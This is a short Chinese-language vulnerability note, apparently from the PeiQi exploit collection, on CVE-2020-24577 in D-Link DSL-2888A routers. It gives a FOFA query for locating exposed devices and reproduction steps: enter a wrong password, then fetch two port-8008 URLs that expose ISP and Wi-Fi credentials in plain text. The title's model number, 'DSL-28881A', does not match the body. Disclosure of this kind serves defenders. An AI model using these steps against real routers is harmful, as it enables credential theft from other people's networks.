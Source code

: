 ```yaml
---
title: D-Link DSL-28881A 信息泄露 CVE-2020-24577
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - D-Link
---
```


# D-Link DSL-28881A 信息泄露 CVE-2020-24577

## 漏洞描述

通过物理连接或无线访问建立与网络的连接后，恶意用户可以通过直接浏览以下URL来获取纯文本格式的Internet提供商连接用户名和密码，以及无线路由器的纯文本格式的用户名和密码

## 漏洞影响

> [!NOTE]
>
> D-Link DSL-2888A

## FOFA

> [!NOTE]
>
> body="DSL-2888A"

## 漏洞复现

登录页面输入任意密码建立连接

![](/img/20210924015542454839.png)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

访问下列两个连接

http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram

![](/img/20210924015542631119.png)

> [!NOTE]
>
> 连接Wifl或物理连接Wifi才能访问